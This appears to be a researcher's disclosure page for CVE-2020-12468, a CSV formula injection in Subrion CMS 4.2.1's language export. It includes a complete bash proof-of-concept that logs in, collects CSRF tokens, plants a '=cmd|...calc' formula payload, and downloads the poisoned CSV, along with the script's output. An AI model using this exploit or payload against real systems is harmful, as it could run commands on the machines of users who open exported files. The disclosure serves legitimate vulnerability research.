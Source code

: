 ```yaml
---
layout: default
parent: Subrion CMS
title: CVE-2020-12468 - CSV Injection via Export Language 
nav_order: 2
---
```

# Export Language - CSV Injection (aka Excel Macro Injection or Formula Injection)

## VulDB-Like Summary

A vulnerability has been found in the Subrion CMS 4.2.1. It has been rated as problematic. Affected by this issue is an unknown code. The manipulation of the of a phrase value within a language leads to a CSV Injection vulnerability. Using CWE to declare the problem leads to CWE-1236. Impacted is confidentiality. An attacker might be able inject script and macros inside CSVs, and using them to mount further attacks against other users.

The weakness was presented 04/12/2020 by Alessandro Magnosi (deadc0de) (GitHub Repository). The advisory is shared for download at github.com. This vulnerability is handled as CVE-2020-12468. The attack may be launched remotely. A single form of authentication is required for exploitation. Technical details are known but no exploit is publicly available.

## Proof-of-Concept

The following [script](https://github.com/belong2yourself/vulnerabilities/blob/master/docs/Subrion%20CMS/CSV%20Injection/csv_injection.sh) may be used to easily verify the vulnerability:

```bash
#!/bin/bash

username="admin"
password="Passw0rd!"
target="http://subrion.local/panel/"
proxy="http://127.0.0.1:8080"

# Grep Session Cookie Name
sess_cookie_name=$(curl -ks -x $proxy $target -I | grep "Set-Cookie" | head -n 1 | grep -oP "INTELLI_\w*")
cookies="Cookie: loader=loaded; $sess_cookie_name=00000000000000000000000000"
# Grep CSRF Token
csrf_token=$(curl -ks -x http://127.0.0.1:8080 $target | grep "__st" | grep -oP "value=\"\K([a-zA-Z0-9]*)" | head -n 1)
echo "[*] Logging in"
# Fix the Session Cookie Value and login
res=$(curl -ks -x $proxy $target -X POST --data "__st=$csrf_token&username=$username&password=$password" -H "$cookies" -i | grep "Set-Cookie")

echo "[*] Adding evil phrase"
# Get CSRF Token to ADD a phrase
csrf_token=$(curl -i -s -k -H "$cookies" -x $proxy "$target/phrases/add/" | grep "__st" | grep -oP "value=\"\K([a-zA-Z0-9]*)" | head -n 1)
# Add the crafted parameter
res=$(curl -ksi -x "$proxy" -X "POST" -H "$cookies" --data-binary "__st=$csrf_token&key=_csv_injection_&category=common&module=&value%5Ben%5D=%2C%3Dcmd%7C%27+%2Fc+calc%27%21%27A1%27%2C&save=1&goto=list"  "$target/phrases/add/")
if [[ $(echo $res | grep "HTTP/1.1" | grep 302) == "" ]]; then
    echo "Could not add the evil phrase"
    exit 1
fi
echo "[*] Downloading Language"
# Get CSRF Token to Download
csrf_token=$(curl -i -s -k -H "$cookies" -x $proxy "$target/languages/download/" | grep "__st" | grep -oP "value=\"\K([a-zA-Z0-9]*)" | head -n 1)
# Downloading the file, showing the issue
curl -ks -x $proxy -X "POST" -H "$cookies" --data-binary "__st=$csrf_token&lang=en&file_format=csv&filename=subrion_4.2.1_en" "$target/languages/download/" | grep "_csv_injection_"
```

Using the above script should give the following output, proving the vulnerability.

```
$ ./csv_injection.sh
[*] Logging in
[*] Adding evil phrase
[*] Downloading Language
_csv_injection_|",=cmd|' /c calc'!'A1',"|",=cmd|' /c calc'!'A1',"|common|en||0
```

As it may be noticed, the value `=cmd|' /c calc'!'A1'` is treated as a standalone cell, wrapped between two commas. If opened in Microsoft Excel, a calculator would spawn.

## Remediation

Currently, no fixes are available for this issue.

## References

*   [https://cwe.mitre.org/data/definitions/1236.html](https://cwe.mitre.org/data/definitions/1236.html)
*   [https://owasp.org/www-community/attacks/CSV_Injection](https://owasp.org/www-community/attacks/CSV_Injection)
*   [https://vel.joomla.org/articles/2140-introducing-csv-injection](https://vel.joomla.org/articles/2140-introducing-csv-injection)



 

